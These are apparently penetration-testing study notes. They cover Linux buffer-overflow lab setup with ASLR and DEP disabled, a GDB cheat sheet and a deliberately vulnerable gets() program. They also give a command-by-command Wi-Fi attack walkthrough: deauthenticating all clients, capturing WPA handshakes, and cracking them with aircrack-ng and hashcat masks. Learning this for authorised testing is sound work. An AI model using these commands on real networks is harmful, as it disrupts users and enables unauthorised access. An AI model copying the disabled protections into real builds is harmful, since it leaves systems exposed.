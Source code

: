 # Linux BOF & Wireless Attacks

#### Environment setup

1. install `edb`

```bash
sudo apt-get install edb
```

1. disable `ASLR` and `DEP` on linux

```bash
sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"
cat /proc/sys/kernel/randomize_va_space

sudo nano /etc/default/grub
# GRUB_CMDLINE_LINUX_DEFAULT="quiet splash noexec=off noexec32=off clearcpuid=514"
sudo update-grub
sudo reboot
```

1. `edb` is pretty much the same as `immunity debugger` you can do the same steps as we did on windows.

### GDB Basics Cheat Sheet

#### Starting and Quitting

* `gdb <program>`: Start GDB with a program.
* `run` or `r`: Start the program.
* `quit` or `q`: Exit GDB.

#### Breakpoints

* `break <location>` or `b <location>`: Set a breakpoint.
* `info breakpoints` or `i b`: List breakpoints.
* `delete <num>` or `d <num>`: Delete a breakpoint.

#### Stepping and Continuing

* `next` or `n`: Step to the next line (skip functions).
* `step` or `s`: Step into a function.
* `continue` or `c`: Continue execution.

#### Inspecting Variables and Memory

* `print <expr>` or `p <expr>`: Print value of an expression.
* `x/<format> <address>`: Examine memory (e.g., `x/4x` for 4 hex values).
* `info locals`: Show local variables.

#### Stack and Frames

* `backtrace` or `bt`: Show the call stack.
* `frame <num>` or `f <num>`: Switch to a frame.
* `info frame`: Show details of the current frame.

#### Running and Control

* `kill`: Stop program execution.
* `jump <location>`: Jump to a line or address.

#### Threads

* `info threads`: List threads.
* `thread <num>`: Switch to a thread.

### Exploit Vuln program

* protostar stack5

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

* compile 32-bit program with no ASLR and no execution protection

```bash
gcc -m32 -no-pie -fno-stack-protector stack5.c -o stack5 
```

## Wireless

#### Config Adapter `TP-Link TL-WN722N v2/v3 [Realtek RTL8188EUS]`

* check Adapter info

```bash
iwconfig
lsusb
```

* install required drivers

```bash
sudo apt install realtek-rtl8188eus-dkms -y
```

### start monitoring

* check the wireless adapter for monitor mode:

```bash
sudo airmon-ng check kill
```

* Start monitor mode on the wireless interface, this will change the interface name to `wlan0mon`

```bash
sudo airmon-ng start wlan0 
```

* Now let’s capture the wireless packets that fly around us on the air to know what wifi networks available.

```bash
sudo airodump-ng wlan0
```

**BSSID**: The MAC address (unique identifier) of the access point or router.

**ESSID**: The network name (SSID) broadcast by the access point.

**ENC**: The encryption protocol used (e.g., WEP, WPA, WPA2).

**Cipher**: The encryption algorithm used for securing the data (e.g., CCMP, TKIP).

**Auth**: The authentication method (e.g., PSK, MGT) used to verify devices connecting to the network.

**Channel**: The specific frequency band used on which the access point is operating.

Network power:

![WF\_S\_S\_4@2x.webp](https://prod-files-secure.s3.us-west-2.amazonaws.com/93d80e8d-76b2-4a09-9be6-3dad0f3c14ab/c9fa2488-6cf4-47ad-a4ab-98239b6fe555/WF\_S\_S\_42x.webp)

### Attacking target:

* Capturing the target traffic to/from clients to get authentication handshakes.

```bash
sudo airodump-ng –w captures -c <channel> –bssid <MAC Address> wlan0
```

* De-authenticate all clients to force them authenticate and then capture the authentication packets.

```bash
sudo aireplay-ng --deauth 0 -a <MAC Address of AP> wlan0
```

* No try to capture authentication handshakes again.

**Inspecting the captured traffic with `wireshark`**:

```bash
wireshark capture-01.cap
```

In Wireshark we want to filter with `eapol` to get the 4-way handshake for WiFi connections.

### Cracking Authentication keys

* Put the interface back to managed mode

```bash
sudo airmon-ng stop wlan0mon
```

* Cracking

```bash
sudo aircrack-ng <pcap-file> -w /usr/share/wordlists/rockyou.txt
```

#### Cracking with hashcat

Convert the cap file to hash with hashcat utils or using this web app: [https://hashcat.net/cap2hashcat/](https://hashcat.net/cap2hashcat/)

```bash
./cap2hccapx.bin input.pcap output.hccapx [filter by essid] [additional network essid:bssid]
```

1. **Brute Force Attack for 8 Digits**

```bash
hashcat -m 2500 -a 3 <OUTPUT_FILE>.hccapx ?d?d?d?d?d?d?d?d
```

1. **Brute Force Attack for 8 Characters (Digits and Alphabet)**

```bash
hashcat -m 2500 -a 3 <OUTPUT_FILE>.hccapx ?a?a?a?a?a?a?a?a
```

?a: Represents any alphanumeric character (lowercase, uppercase, digits, and symbols).

1. **brute force lower letters**

```bash
hashcat -m 2500 -a 3 <OUTPUT_FILE>.hccapx ?l?l?l?l?l?l?l?l
```

1. **Brute Force Attack for 8 to 11 Digits**

```bash
hashcat -m 2500 -a 3 <OUTPUT_FILE>.hccapx ?d?d?d?d?d?d?d?d --increment --increment-min=8 --increment-max=11
```
